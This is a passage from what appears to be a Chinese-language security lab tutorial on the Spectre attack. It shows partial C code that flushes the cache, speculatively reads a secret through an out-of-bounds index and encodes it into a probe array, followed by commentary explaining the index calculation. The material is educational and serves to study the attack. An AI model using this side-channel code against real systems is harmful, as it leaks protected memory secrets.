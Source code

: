 ```c
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(index_beyond);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}

```

程序解读：  
1、下面这条语句计算秘密值和buffer起始地址的差值
```c
size_t index_beyond = (size_t)(secret - (char*)buffer); 
```

![幽灵攻击基础代码](../img/spectre-basecode.png)
从结果看到，这个程序偶尔能成功，成功概率并不高
